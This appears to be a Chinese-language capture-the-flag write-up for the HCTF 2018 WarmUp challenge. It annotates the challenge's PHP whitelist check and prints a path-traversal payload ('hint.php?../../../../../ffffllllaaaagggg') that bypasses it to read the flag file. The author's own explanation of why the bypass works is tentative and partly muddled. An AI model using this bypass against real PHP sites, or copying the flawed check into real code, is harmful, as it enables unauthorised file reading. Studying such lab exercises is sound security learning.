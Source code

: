 ```yaml
---
title: HCTF 2018 WarmUp
categories:
- wp
feature_text: |
  [HCTF 2018]WarmUp

---
```




2021.10.16

???



<!-- more -->

F12发现一个php文件被注释掉了

通过http://f047c895-2bc2-4d31-838f-a8f12e9bea1b.node4.buuoj.cn:81/source.php查看源代码:

![image-20211016175531793]({{ site.url }}/assets/prtsc/image-20211016175531793.png)

开始查函数：

- isset：检测目标变量的值是否为NULL，如果是NULL返回False
- is_string：检测目标变量是否为字符串，如果是，返回True
- echo：相当于输出
- in_array(search,array,type)：搜索数组中是否存在指定的值，存在输出True（如果 *search* 参数是字符串且 *type* 参数被设置为 TRUE，则搜索区分大小写。）
- mb_substr( string $str , int $start [, int $length = NULL [, string $encoding = mb_internal_encoding() ]] ) : string      :划重点划重点了

![image-20211016180918301]({{ site.url }}/assets/prtsc/image-20211016180918301.png)

- mb_strpos(haystack,needle)  :返回要needle在haystack字符串中首次出现的位置

- $_REQUEST:获取以POST方法和GET方法提交的数据

分析代码

cehckFile这个函数进行了 3次白名单检测、 2次问号过滤、一次URL解码

    class emmm
        {
            public static function checkFile(&$page)
        {
            //白名单列表
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            //isset()判断变量是否声明is_string()判断变量是否是字符串 &&用了逻辑与两个值都为真才执行if里面的值
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it A";
                return false;
            }
            //检测传进来的值是否匹配白名单列表$whitelist 如果有则执行真
            if (in_array($page, $whitelist)) {
                return true;
            }
            //过滤问号的函数(如果$page的值有？则从?之前提取字符串)
            
            //由此开始******************************************
            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')//返回$page.?里面?号出现的第一个位置
            );
    
             //第二次检测传进来的值是否匹配白名单列表$whitelist 如果有则执行真
            if (in_array($_page, $whitelist)) {
                return true;
            }
            //url对$page解码
            $_page = urldecode($page);
    
            //第二次过滤问号的函数(如果$page的值有？则从?之前提取字符串)
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            //第三次检测传进来的值是否匹配白名单列表$whitelist 如果有则执行真
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

```
payload：
http://f047c895-2bc2-4d31-838f-a8f12e9bea1b.node4.buuoj.cn:81/index.php?file=hint.php?../../../../../ffffllllaaaagggg
```

理解：

找到flag的关键是找到 ”ffffllllaaaagggg“ 这个文件，分析代码得知其进行了白名单和？的过滤。想要执行ffffllllaaaagggg这个文件，就要先得到index.php的权限（自我理解，有待考证），网址的载入是从后往前的（？），所以从后往前的第一个”？“被第一次问号过滤过滤掉。然后白名单过滤再将hint.php过滤掉，所以真正执行的网址其实是http://f047c895-2bc2-4d31-838f-a8f12e9bea1b.node4.buuoj.cn:81/index.php?file=../../../../../ffffllllaaaagggg

从而拿到flag

注：关于为什么只需要跳过一次问号过滤和一次白名单过滤是因为从 $_page = mb_substr(，才开始真正的过滤输入的网址





